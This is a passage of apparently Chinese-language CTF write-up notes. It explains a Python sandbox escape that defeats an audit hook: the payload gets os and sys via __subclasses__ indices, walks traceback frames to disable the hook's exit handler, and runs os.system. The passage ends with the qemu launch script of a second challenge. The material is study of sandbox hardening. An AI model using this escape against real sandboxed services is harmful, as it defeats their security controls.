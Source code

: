 但是 modules 被刪掉，沒辦法透過 `''.__class__.__base__.__subclasses__()[80].__init__.__globals__['sys'].modules['__main__'].__exit = lambda x: None` 此種方式來取得 `main` 並蓋寫 exit，此時可以透過 `try:... except: sys.exc_info` 取得 call flow，

- `sys.exc_info()` 回傳三個 value `(type, value, traceback)`
  - `traceback.tb_frame`: points to the execution frame of the current level
    - Accessing `tb_frame` raises an auditing event `object.__getattr__` with arguments obj and "tb_frame"
    - `tb_frame.f_back`: `f_back` is to the previous stack frame (towards the caller)
    - `tb_frame.f_globals`: used for global variables



不過因為 `tb_frame` 現在會 trigger `__getattr__`，因此現在也無法 work 了，以下為 payload:

```python
os = ''.__class__.__base__.__subclasses__()[99].__init__.__globals__['_os']
sys = ''.__class__.__base__.__subclasses__()[80].__init__.__globals__['sys']

try:
    raise Exception()
except Exception as e:
    _, _, tb = sys.exc_info()
    fr = tb.tb_frame

    while fr:
        if 'audit' in fr.f_globals:
            break
        fr = fr.f_back
    
    fr.f_globals['__exit'] = lambda x: None
    os.system('ls')
```



- `-u`: Force the stdout and stderr streams to be unbuffered.  This option has no effect on the stdin stream
- `addaudithook(hook)`: 將 callback function 以 hook 的形式加到 interpreter 的執行過程
  - Append the callable hook to the list of active auditing hooks for the current (sub)interpreter
  - [audit events table](https://docs.python.org/3/library/audit_events.html#audit-events)
- `exec(code, {}, {})`: If the globals dictionary does not **contain a value for the key builtins**, a reference to the dictionary of the built-in module builtins is inserted under that key
  - 代表 builtin function 可以用，像是 `__import__('os')` 也可以
- 題目沒有提供 python 的環境，因此 payload 應該在舊的 python 環境才能 work，比較新的 python 應該都被擋掉了



### pfopten

run.sh

```bash
#!/bin/bash

qemu-system-x86_64 \
    -smp 1 -m 100M \
    -kernel vmlinuz \
    -append "console=ttyS0 quiet ip=dhcp" \
    -initrd initramfs.cpio.gz \
    -fda flag.txt \
    -snapshot \
    -nographic \
    -monitor /dev/null \
    -no-reboot
```
